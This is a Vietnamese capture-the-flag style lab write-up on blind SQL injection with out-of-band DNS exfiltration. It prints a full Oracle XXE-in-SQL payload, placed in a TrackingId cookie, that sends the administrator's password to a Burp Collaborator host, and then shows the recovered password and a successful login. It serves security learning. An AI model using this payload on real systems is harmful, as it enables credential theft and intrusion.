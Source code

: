 Khi chúng ta gửi dns loopkup đến tên miền `password.sub-domain.burpcollaborator.net` dns sẽ lần lượt truy vấn đến `burpcollaborator.net` để tìm `sub-domain.burpcollaborator.net`, và truy vấn tới `sub-domain.burpcollaborator.net` để tìm `password.sub-domain.burpcollaborator.net`

`sub-domain.burpcollaborator.net` là tên miền ta có thể kiểm soát và xem các truy vấn dns, do đó ta có thể biết được giá trị password của administrator

Setup burp collaborator client (đây là một server ảo được burpsuite tạo ra để ta có thể thực hành và xem các truy vấn dns) 

`0jkrd6kddep17fwkoddpstbk9bf23r.burpcollaborator.net`

`TrackingId=rf21pTsGRDvoxdRd'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(select+password+from+users+where+username='administrator')||'.llacfrmyfzrm90y5qyfaued5bwhq5f.burpcollaborator.net">+%25remote%3b]>'),'/l')+FROM+dual--; session=Spx49DBLLvHZvWpPHEoGYwItyHYDWyFM`

Câu lệnh trên sẽ nối password của administrator vào đầu truy vấn, truy vấn của ta sẽ là `http://password.llacfrmyfzrm90y5qyfaued5bwhq5f.burpcollaborator.net`

Kiểm tra truy vấn dns trên server 

![](images/73.png)

Ta có thể thấy password là: `lgib17ppkjt60r8sdguj` (được gán vào đầu truy vấn)

Đăng nhập thử 

![](images/74.png)

Thành công :3

